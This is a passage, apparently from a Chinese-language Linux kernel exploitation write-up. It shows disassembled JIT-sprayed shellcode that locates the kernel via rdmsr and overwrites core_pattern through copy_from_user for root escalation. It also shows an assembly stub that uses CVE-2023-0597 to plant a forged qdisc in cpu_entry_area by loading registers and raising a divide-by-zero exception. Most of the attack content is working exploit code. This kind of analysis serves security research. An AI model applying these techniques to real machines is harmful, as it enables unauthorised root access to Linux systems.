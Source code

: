 ```plain
   0xffffffffcc001edb:  nop
   0xffffffffcc001edc:  nop
   0xffffffffcc001edd:  cmp    al,0xb8
   0xffffffffcc001edf:  xor    esi,esi
   0xffffffffcc001ee1:  nop
   0xffffffffcc001ee2:  cmp    al,0xb8
   0xffffffffcc001ee4:  mov    sil,0x0
   0xffffffffcc001ee7:  cmp    al,0xb8
   0xffffffffcc001ee9:  shl    esi,0x8
   0xffffffffcc001eec:  cmp    al,0xb8
   0xffffffffcc001eee:  mov    sil,0x5e
   0xffffffffcc001ef1:  cmp    al,0xb8
   0xffffffffcc001ef3:  shl    esi,0x8
   0xffffffffcc001ef6:  cmp    al,0xb8
   0xffffffffcc001ef8:  mov    sil,0xa1
   0xffffffffcc001efb:  cmp    al,0xb8
   0xffffffffcc001efd:  shl    esi,0x8
   0xffffffffcc001f00:  cmp    al,0xb8
   0xffffffffcc001f02:  mov    sil,0xc0
   0xffffffffcc001f05:  cmp    al,0xb8
   0xffffffffcc001f07:  sub    rax,rsi
   0xffffffffcc001f0a:  cmp    al,0xb8
   0xffffffffcc001f0c:  xor    edi,edi
   0xffffffffcc001f0e:  nop
   0xffffffffcc001f0f:  cmp    al,0xb8
   0xffffffffcc001f11:  mov    dil,0x70
   0xffffffffcc001f14:  cmp    al,0xb8
   0xffffffffcc001f16:  shl    edi,0x14
   0xffffffffcc001f19:  cmp    al,0xb8
   0xffffffffcc001f1b:  call   rax
```

　　shellcode 的功能大概是：

1.  通过 rdmsr 指令获取内核地址
2.  然后利用 copy\_from\_user 修改 core\_pattern

　　然后用户态触发 `core_pattern`​ 提权。

　　‍

### 在内核固定地址伪造 qdisc

　　作者利用 CVE-2023-0597 实现在 cpu\_entry\_area 处布置数据伪造 cl->qdisc->enqueue：

```plain
foo:
    mov rsp,rdi
    pop r15
    pop r14
    pop r13
    pop r12
    pop rbp
    pop rbx
    pop r11
    pop r10
    pop r9
    pop r8
    pop rax
    pop rcx
    pop rdx
    pop rsi
    pop rdi
    div qword [0x1234000] ; trigger div 0 exception
```
